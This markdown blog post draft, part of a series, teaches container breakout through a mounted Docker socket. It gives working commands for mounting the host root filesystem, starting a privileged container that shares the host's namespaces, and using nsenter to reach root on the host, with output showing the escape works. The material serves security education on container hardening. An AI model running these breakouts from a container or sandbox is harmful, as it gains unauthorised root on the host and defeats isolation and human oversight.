 ```yaml
---
title: "Container Breakouts – Part 3: Docker Socket"
date: 2020-07-15T11:56:35+02:00
draft: true
tags:
- docker
- breakout
- security
---
```


This post is part of a series and shows container breakout techniques that can be performed if a container is started with mounted Docker socket inside the container.

<!--more-->

The following posts are part of the series:
- [Part 1: Access to root directory of the Host](../container-breakouts-part1)
- [Part 2: Privileged Container](../container-breakouts-part2)
- Part 3: Docker Socket

## Intro

The motivation of this post is to collect container breakouts. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

It may the case that not all breakouts that you have in mind are listed. Do not hesitate and contact me so that I can add them. Over the time, I may extend them as well.

## Docker Socket

You know, every time you have **access to the Docker Socket** (default location: `/var/run/docker.sock`) it **means** that you are **root on the host**. Some containerized application may need access to the socket, e.g., for observation or local system management.

You have read correctly, local system management. As soon you have **access to** the **socket**, you can **manage** the local **system**. Okay, first at all, you can manage containers and these containers can afterwards manage the system. 

So if you want to escalate from the container to the system, you can **interact** with the **Docker Socket manually or** just simple **install Docker** (on ubuntu: `sudo apt update && sudo apt install -y docker.io`) in the container. What the next step? Exactly, start further container. 
### Known Techniques

First at all I will start with a short re-cap. We can start containers with the root directory mounted into the container. To do so, one must run the following command and continue reading with [Part 1](../container-breakouts-part1) of this series.

```
# docker run --rm -it -v/:/hostfs ubuntu bash
root@95bc051624b9:/# 
``` 

The alternative would be to start a privileged container. This privileged container can interact with the kernel without limitations. To do so, one must run the following command and continue reading with [Part 2](../container-breakouts-part2) of this series.

```
# docker run --rm --privileged -it ubuntu bash   
root@aad2c9378900:/#
```

These steps are a bit obvious, but explain what hove done wrong in the other cases

### Dropping Namespace Boundaries

As we can take from the amazing artwork by Julia Evans ([@b0rk](https://twitter.com/b0rk)) and we already know that containerization is done by the use of Linux namespaces (details can be found in the man page `man namespaces`).
 
![container namespaces](../../images/container-ns.jpeg " Container namespaces by Julia Evans ([@b0rk](https://twitter.com/b0rk))")

To get details about which namespace is assigned to a process, we can take this information out of the `proc` filesystem (for each process `ls -l /proc/self/ns/`). The following namespaces are created for the start of a new container in the default configuration:
- inter process communication (`ipc`)
- mount (`mnt`)
- network (`net`)
- process id (`pid`)
- hostname (`uts`)

If we want to break out of the container to get fully system access we **start** a new **container with all (possible) namespaces** from the host via the docker socket. Only the `mnt` namespace cannot be set at container startup. Due to the fact that we start our container **privileged**, there is no seccomp filter in place and we can use `nsenter` to **switch** to **mount namespace** of the `init` process.

```
# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 user user 0 Jul 15 09:02 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 ipc -> 'ipc:[4026532376]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 mnt -> 'mnt:[4026532374]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 net -> 'net:[4026532379]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 pid_for_children -> 'pid:[4026532377]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 user -> 'user:[4026531837]'
lrwxrwxrwx 1 user user 0 Jul 15 09:02 uts -> 'uts:[4026532375]'

# docker run --rm -it --privileged --network host --pid host --ipc host -v/:/hostfs --uts host ubuntu  bash

root@arch:/# nsenter -t 1 -m

[root@arch /]# ls -l /proc/self/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:34 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:34 uts -> 'uts:[4026531838]'

[root@arch /]# ls -l /proc/1/ns/
total 0
lrwxrwxrwx 1 root root 0 15. Jul 11:03 cgroup -> 'cgroup:[4026531835]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 ipc -> 'ipc:[4026531839]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 mnt -> 'mnt:[4026531840]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 net -> 'net:[4026531992]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 pid_for_children -> 'pid:[4026531836]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 user -> 'user:[4026531837]'
lrwxrwxrwx 1 root root 0 15. Jul 11:03 uts -> 'uts:[4026531838]'

```

We can now behave as a user `root` with full access to the host system. 

## Conclusion

The final breakout technique was a bit more detailed about what docker does under the hood to secure container. But, if you are root and can interact with the socket, there are no limitations. The last approach is the most OpSec-safe approach for easy container break out techniques.  

The listed container breakouts are in my humble opinion the most relevant one. The list is for sure not complete and as soon as I identify other important one, I will update, extend, and re-organize the content. 

I hope you enjoyed my little series and I am looking forward if one of you have some ideas for extending container breakouts.

## Remarks

The list of proposed techniques is not complete and is mainly based on insecure container management. To name a few previous container breakouts that are based on vulnerabilities in docker here is a list to get an idea:

- [CVE-2019-5736: Escape from Docker and Kubernetes containers to root on host](https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html)
- [Docker Patched the Most Severe Copy Vulnerability to Date With CVE-2019-14271](https://unit42.paloaltonetworks.com/docker-patched-the-most-severe-copy-vulnerability-to-date-with-cve-2019-14271/)

At the end of writing I realized that [Jesse Hertz](mailto:jesse.hertz@nccgroup.trust) from [NCC Group](https://www.nccgroup.com/) has released [Abusing Privileged and Unprivileged Linux Containers]( https://www.nccgroup.com/globalassets/our-research/us/whitepapers/2016/june/container_whitepaper.pdf) which is an even more comprehensive collection to breakout of a container.

The focus was on Operating system level. Nowadays containers are managed and orchestrated in a cluster environment by [Kubernetes](https://kubernetes.io/) or [Nomad](https://www.nomadproject.io/) to name at least two. Even the whole cloud stack is kept out of this series. These two areas will be addressed in another series.

## Final words

Due to the fact that I am only a consumer of already existing research I want to give out a big thanks for sharing the knowledge that I have consumed in the past years from:

- Brad Geesaman – [@bradgeesaman](https://twitter.com/bradgeesaman)
- Chris Le Roy – [@brompwnie](https://github.com/brompwnie)
- Duffie Cooley – [@mauilion](https://twitter.com/mauilion)
- Ian Coldwater – [@IanColdwater](https://twitter.com/IanColdwater)
- Jessie Frazelle – [@jessfraz](https://twitter.com/jessfraz)
- Mark Manning – [@antitree](https://twitter.com/antitree) 
- Rory McCune – [@raesene](https://twitter.com/raesene)

To name a few – you are awesome – please continue !!


